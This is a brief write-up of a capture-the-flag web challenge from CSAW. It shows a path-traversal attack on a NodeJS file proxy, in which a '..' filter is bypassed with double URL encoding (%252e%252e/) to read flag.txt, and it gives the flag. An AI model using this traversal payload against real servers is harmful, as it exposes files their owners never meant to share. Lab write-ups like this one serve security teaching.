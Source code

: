 ## orange v1
Web - 100 point

### Challenge 
> I wrote a little proxy program in NodeJS for my poems folder.
> Everyone wants to read flag.txt but I like it too much to share.

> http://web.chal.csaw.io:7311/?path=orange.txt

### Solution
This is a simple path traversal. Visit http://web.chal.csaw.io:7311/?path= and we see the directory.

However, there is a check for dots `..`
Visit http://web.chal.csaw.io:7311/?path=../ and we see `WHOA THATS BANNED!!!!`

-

We need to bypass the checking of dots as per [this stackexchange thread](https://security.stackexchange.com/questions/96736/path-traversal-filter-bypass-techniques)

	Try double URL encoding (. = %252e, / = %252f, \ = %255c).

Now, let's try http://web.chal.csaw.io:7311/?path=%252e%252e/
Immediately we see flag.txt in the directory!

-

The flag is found at http://web.chal.csaw.io:7311/?path=%252e%252e/flag.txt

***Flag: `flag{thank_you_based_orange_for_this_ctf_challenge}`***